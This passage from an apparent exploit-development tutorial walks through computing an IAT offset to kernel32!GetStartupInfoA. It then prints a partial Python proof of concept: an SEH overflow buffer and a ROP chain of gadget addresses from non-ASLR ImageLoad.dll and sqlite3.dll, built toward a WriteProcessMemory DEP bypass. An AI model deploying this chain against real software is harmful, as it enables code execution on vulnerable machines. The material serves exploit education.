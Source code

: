 Looking at the IAT for `ImageLoad`, we can see there is a nice IAT entry that points to `kernel32!GetStartupInfoA`.

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM81.png" alt="">

Subtracting the two functions results in a value of `0xfffffd2d` - and also yields our desired output!

<img src="{{ site.url }}{{ site.baseurl }}/images/WPM82.png" alt="">

Now that we have solved this issue, let's show the full PoC up until this point.

```python
import sys
import os
import socket
import struct

# 4063 byte SEH offset
# Stack pivot lands at padding buffer to SEH at offset 2563
crash = "\x90" * 2563

# Stack pivot lands here
# Beginning ROP chain


# Saving address near ESP for relative calculations into EAX and ECX
# EBP is near stack address
crash += struct.pack('<L', 0x61c05e8c)    # xchg eax, ebp ; ret: sqlite3.dll (non-ASLR enabled module)

# EAX is now 0xfec bytes away from ESP. We want current ESP + 0x28 (to compensate for loading EAX into ECX eventually) into EAX
# Popping negative ESP + 0x28 into ECX and subtracting from EAX
# EAX will now contain a value at ESP + 0x24 (loading ESP + 0x24 into EAX, as this value will be placed in EBP eventually. EBP will then be placed into ESP - which will compensate for ROP gadget which moves EAX into EAX via "leave")
crash += struct.pack('<L', 0x10018606)    # pop ecx, ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0xffffefe0)    # Negative ESP + 0x28 offset
crash += struct.pack('<L', 0x1001283e)    # sub eax, ecx ; ret: ImageLoad.dll (non-ASLR enabled module)

# This gadget is to get EBP equal to EAX (which is further down on the stack) - due to the mov eax, ecx ROP gadget that eventually will occur.
# Said ROP gadget has a "leave" instruction, which will load EBP into ESP. This ROP gadget compensates for this gadget to make sure the stack doesn't get corrupted, by just "hopping" down the stack
# EAX and ECX will now equal ESP - 8 - which is good enough in terms of needing EAX and ECX to be "values around the stack"
crash += struct.pack('<L', 0x61c30547)    # add ebp, eax ; ret sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c6588d)    # mov ecx, eax ; mov eax, ecx ; add esp, 0x24 ; pop ebx ; leave ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget (pop ebx)
crash += struct.pack('<L', 0x90909090)    # Padding to compensate for above ROP gadget (pop ebp in leave instruction)

# Jumping over kernel32!WriteProcessMemory placeholder parameters
```